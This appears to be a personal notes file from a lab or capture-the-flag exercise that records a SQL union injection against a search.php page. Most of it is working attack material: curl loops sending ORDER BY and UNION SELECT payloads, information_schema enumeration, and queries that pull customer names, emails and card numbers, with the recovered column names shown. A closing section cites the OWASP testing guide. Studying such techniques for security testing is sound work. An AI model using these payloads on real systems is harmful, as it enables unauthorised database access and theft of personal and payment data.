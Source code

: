 # sql union injection

```bash

curl -s "http://10.XXX.XX.XXX/search.php?name=Ruby%27+ORDER+BY+1+%23++&submit=Search"

for i in $(seq 0 10);
do
    echo -n "${i} : " ; curl -s "http://10.XXX.XX.XXX/search.php?name=Ruby%27+ORDER+BY+${i}+%23++&submit=Search"
done


' ORDER BY 1 #
' ORDER BY 2 #
' ORDER BY 3 #
' ORDER BY 4 #
' ORDER BY 5 #

' UNION SELECT 1,2,3,4 #

' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()#

     1 2 Private,customers
          
 ' UNION SELECT 1,group_concat(column_name, 0x0a),3 FROM information_schema.columns WHERE table_name="customers"#
 
     1 ID ,Firstname ,Lastname ,Email ,PhoneNumber ,CardNum ,ExpDate 3
      

' UNION SELECT 1,group_concat(column_name, 0x0a),3 FROM information_schema.columns WHERE table_name="Private"#

     1 id ,company ,contact ,currency ,balanceowed ,location ,username 3


' UNION SELECT 1,'text2',3 FROM information_schema.columns WHERE table_name="Private"# 

for i in $(seq 0 100);
do
    echo -n "ID ${i} : " ; curl "http://10.102.1.228/search.php?name=%27+UNION+ALL+SELECT+Firstname%2C+Lastname%2C+CardNum+FROM+customers+WHERE+ID%3D%22${i}%22%23"
done

' UNION ALL SELECT currency,'text2','text3' FROM Private WHERE ID="1"# 

' UNION ALL SELECT Firstname, Lastname, CardNum FROM customers WHERE ID="1"# 

' UNION ALL SELECT Firstname, Lastname, Email FROM customers WHERE Firstname="Martin"# 

' UNION ALL SELECT ID, Lastname, Email FROM customers WHERE Firstname="Martin"# 


' UNION ALL SELECT company, balanceowed, username FROM Private WHERE id=""# 

```

sql UNION exploitation technique explained by `owasp.org`

<https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection>

original query - `SELECT Name, Phone, Address FROM Users WHERE Id=$id`

query w/ union - `SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

`' UNION ALL SELECT Firstname,'text2','text3' FROM customers WHERE ID="1"#`
